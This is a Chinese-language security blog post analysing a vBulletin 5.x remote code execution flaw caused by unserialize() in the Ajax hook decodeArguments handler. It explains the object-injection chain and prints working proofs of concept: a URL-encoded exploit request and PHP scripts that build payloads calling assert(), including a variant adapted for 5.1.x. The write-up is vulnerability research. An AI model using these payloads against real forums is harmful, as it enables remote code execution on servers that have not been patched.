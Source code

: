 ```yaml
---
layout: post
title: "unserialize() 实战之 vBulletin 5.x.x 远程命令执行"
tags: [web, php, security]
---
```


近日，vBulletin 的一枚 RCE 利用和简要的分析被曝光，产生漏洞的原因源于 vBulletin 程序在处理 Ajax API 调用的时候，使用 `unserialize()` 对传递的参数值进行了反序列化操作，导致攻击者使用精心构造出的 Payload 直接导致代码执行。关于 PHP 中反序列化漏洞的问题可以参考 OWASP 的[《PHP Object Injection》](https://www.owasp.org/index.php/PHP_Object_Injection)。

使用 [原文](http://pastie.org/pastes/10527766/text?key=wq1hgkcj4afb9ipqzllsq) 提供的 Payload 可以直接在受影响的站点上执行 `phpinfo(1)`：

![]({{ site.url }}/public/img/article/2015-11-06-unserialize-attack-with-vbulletin-5-x-x-rce/1.png)

具体 Payload 的构造过程也文中有所提及，但是笔者在对 vBulletin 5.1.x 版本进行测试的时候，发现原本的 Payload 并不能成功，甚是疑惑。然而在深入分析后，发现在具体利用的时候还需要结合 vBulletin 程序本身的一些代码结构才能得到一个较为通用的 Payload，通过下面的分析后就能够明白。

### 一、反序列化触发点跟踪

虽然此次漏洞 `unserialize()` 函数的触发在曝光的文章中已经描述的很清楚了，并且对整个关键代码的触发流程也进行了说明，但是在深入跟踪和分析时，觉得还是有值得注意和学习的地方。

    http://172.16.96.130/ajax/api/hook/decodeArguments?arguments=O%3A12%3A%22vB_dB_Result%22%3A2%3A%7Bs%3A5%3A%22%00%2a%00db%22%3BO%3A11%3A%22vB_Database%22%3A1%3A%7Bs%3A9%3A%22functions%22%3Ba%3A1%3A%7Bs%3A11%3A%22free_result%22%3Bs%3A7%3A%22phpinfo%22%3B%7D%7Ds%3A12%3A%22%00%2a%00recordset%22%3Bi%3A1%3B%7D

通过观察服务端在处理PHP时的调用栈，可知服务端在处理上述请求时，会将 `ajax/api/hook/decodeArguments` 作为路由参数 `$_REQUEST['routestring']` 传递给地址路由处理过程。因其符合 `ajax/api/[controller]/[method]` 的 Ajax API 请求路由格式，会再调用 `vB5_Frontend_ApplicationLight` 实例中的 `handleAjaxApi()` 函数来进行相应的模块加载并调用处理函数：

{% highlight php %}
protected function handleAjaxApi()
{
	$routeInfo = explode('/', $_REQUEST['routestring']);

	if (count($routeInfo) < 4)
	{
		throw new vB5_Exception_Api('ajax', 'api', array(), 'invalid_request');
	}
	$params = array_merge($_POST, $_GET);
	$this->sendAsJson(Api_InterfaceAbstract::instance(Api_InterfaceAbstract::API_LIGHT)->callApi($routeInfo[2], $routeInfo[3], $params, true));
}
{% endhighlight %}

请求的 `ajax/api/hook/decodeArguments` 会实例化 `hook` 类然后调用 `decodeArguments()` 函数，原文中所提及的触发点就在此处：

{% highlight php %}
	public function decodeArguments($arguments)
	{
		if ($args = @unserialize($arguments))
		{
			$result = '';
			
			foreach ($args AS $varname => $value)
			{
				$result .= $varname;
{% endhighlight %}

通过反序列化，我们可以使之能生成在执行环境上下文中已经定义好了的类实例，并通过寻找一个含有 `__wakeup()` 或者 `__destruct()` 魔术方法存在问题的类来进行利用。然后原文中所提到的利用方法并不是这样，其使用的是继承于 PHP 迭代器类型的 `vB_dB_Result` 类，由于 `$args = @unserialize($arguments)` 产生了一个迭代器 `vB_dB_Result` 类实例，因此在后面进行 `foreach` 操作时会首先调用其 `rewind()` 函数。

而在 `rewind()` 函数处理过程中，会根据实例变量状态进行调用：

{% highlight php %}
	public function rewind()
	{
		if ($this->recordset)
		{
			$this->db->free_result($this->recordset);
		}
{% endhighlight %}

这里就可以通过反序列化来控制 `$this->recordset` 的值，并且 `$this->db->free_result` 最终会调用：

{% highlight php %}
	function free_result($queryresult)
	{
		$this->sql = '';
		return @$this->functions['free_result']($queryresult);
	}
{% endhighlight %}

`$this->functions['free_result']` 原本的初始化值为 `mysql_free_result`，但是由于反序列化的原因，我们也能控制 `vB_dB_Result` 类实例中的 `db` 成员，更改其对应的 `functions['free_result']` 为我们想要执行的函数，因此一个任意代码执行就产生了。

### 二、利用分析和完善

观察一下原文中提供的 Payload 构造 PoC：

{% highlight php %}
<?php
class vB_Database {
       public $functions = array();
       public function __construct() {
               $this->functions['free_result'] = 'phpinfo';
       }
}

class vB_dB_Result {
       protected $db;
       protected $recordset;
       public function __construct() {
               $this->db = new vB_Database();
               $this->recordset = 1;
       }
}

print urlencode(serialize(new vB_dB_Result())) . "\n";
{% endhighlight %}

通过第一部分的分析，我们已经清楚了整个漏洞的函数调用过程和原因，并且也已经得知哪些参数可以得到控制和利用。因此这里我们修改 `$this->functions['free_result'] = 'assert';` 和 `$this->recordset = 'var_dump(md5(1))';`，最终远程代码执行的的函数则会是 `assert('var_dump(md5(1))')`：

![]({{ site.url }}/public/img/article/2015-11-06-unserialize-attack-with-vbulletin-5-x-x-rce/2.png)

这个时候其实 RCE 已经非常的顺利了，但是在进行测试的时候却发现了原文所提供的 PoC 只能复现 5.0.x 版本的 vBulletin，而 5.1.x 版本的却不可以。通过本地搭建测试环境，并使用同样的 PoC 去测试，发现在 5.1.x 版本中 `vB_Database` 被定义成了抽象类：

{% highlight php %}
abstract class vB_Database
{
	/**
	 * The type of result set to return from the database for a specific row.
	 */
{% endhighlight %}

抽象类是不能直接进行实例化的，原文提供的 PoC 却是实例化的 `vB_Database` 类作为 `vB_dB_Result` 迭代器成员 `db` 的值，在服务端进行反序列化时会因为需要恢复实例为抽象类而导致失败：

![]({{ site.url }}/public/img/article/2015-11-06-unserialize-attack-with-vbulletin-5-x-x-rce/3.png)

这就是为什么在 5.1.x 版本上 PoC 会不成功的原因。然后要解决这个问题也很容易，通过跟踪调用栈，发现程序在反序列化未定义类时会调用程序注册的 `autoload()` 方法去动态加载类文件。这里 vBulletin 会依次调用 `includes/vb5/autoloader.php` 中的 `_autoload` 方法和 `core/vb/vb.php` 中的 `autoload()` 方法，成功加载即返回，失败则反序列化失败。所以要想继续使用原有 PoC 的思路来让反序列化后会执行 `$this->db->free_result($this->recordset);` 则需要找到一个继承于 `vB_Database` 抽象类的子类并且其源码文件路径能够在 autoload 过程中得到加载。

通过搜索，发现有如下类继承于 `vB_Database` 抽象类及其源码对应的路径：

![]({{ site.url }}/public/img/article/2015-11-06-unserialize-attack-with-vbulletin-5-x-x-rce/4.png)
    
而终代码进行进行 autoload 的时候会解析传递的类名来动态构造尝试加载的源码文件路径：

{% highlight php %}
...省略
	$fname = str_replace('_', '/', strtolower($class)) . '.php';

	foreach (self::$_paths AS $path)
	{
		if (file_exists($path . $fname))
		{
			include($path . $fname);
			if (class_exists($class, false))
			{
				return true;
			}
{% endhighlight %}

上面这段代码存在于第一次调用的 `__autoload()` 里，可以看到对提供的类名以 `_` 进行了拆分，动态构造了加载路径（第二次 autoload() 的过程大致相同），简单分析一下就可以发现只有在反序列化 `vB_Database_MySQL` 和 `vB_Database_MySQLi` 这两个基于 `vB_Database` 抽象类的子类时，才能成功的动态加载其类定义所在的源码文件使得反序列化成功执行，最终才能控制参数进行任意代码执行。

所以，针对 5.1.x 版本 vBulletin 的 PoC 就可以得到了，使用 `vB_Database_MySQL` 或者 `vB_Database_MySQLi` 作为迭代器 `vB_dB_Result` 成员 `db` 的值即可。具体 PoC 如下：

{% highlight php %}
<?php
class vB_Database_MySQL {
       public $functions = array();
       public function __construct() {
               $this->functions['free_result'] = 'assert';
       }
}

class vB_dB_Result {
       protected $db;
       protected $recordset;
       public function __construct() {
               $this->db = new vB_Database_MySQL();
               $this->recordset = 'print("This Vuln In 5.1.7")';
       }
}

print urlencode(serialize(new vB_dB_Result())) . "\n";
{% endhighlight %}

测试一下，成功执行 `assert('print("This Vuln In 5.1.7")')`：

![]({{ site.url }}/public/img/article/2015-11-06-unserialize-attack-with-vbulletin-5-x-x-rce/5.png)

当然了，PoC 不止上面所提供的这一种写法，仅供参考而已。

### 三、小结

此次 vBulletin 5.x.x RCE 漏洞的曝光，从寻找触发点到对象的寻找，再到各种自动加载细节，不得不说是一个很好的 PHP 反序列化漏洞实战实例。不仔细去分析真的不能发现原作者清晰的思路和对程序的熟悉程度。

另外，[Check Point](http://blog.checkpoint.com/) 在其官方博客上也公布了反序列化的另一个利用点，通过反序列化出一个模版对象最终调用 `eval()` 函数进行执行（[原文](http://blog.checkpoint.com/2015/11/05/check-point-discovers-critical-vbulletin-0-day/)）。

### 参考

* [http://pastie.org/pastes/10527766/text?key=wq1hgkcj4afb9ipqzllsq](http://pastie.org/pastes/10527766/text?key=wq1hgkcj4afb9ipqzllsq)
* [https://www.owasp.org/index.php/PHP_Object_Injection](https://www.owasp.org/index.php/PHP_Object_Injection)
* [http://php.net/manual/en/class.iterator.php](http://php.net/manual/en/class.iterator.php)
* [http://www.php.net/manual/en/function.autoload.php](http://www.php.net/manual/en/function.autoload.php)
* [http://blog.checkpoint.com/2015/11/05/check-point-discovers-critical-vbulletin-0-day/](http://blog.checkpoint.com/2015/11/05/check-point-discovers-critical-vbulletin-0-day/)
* [http://www.sebug.net/vuldb/ssvid-89707](http://www.sebug.net/vuldb/ssvid-89707)
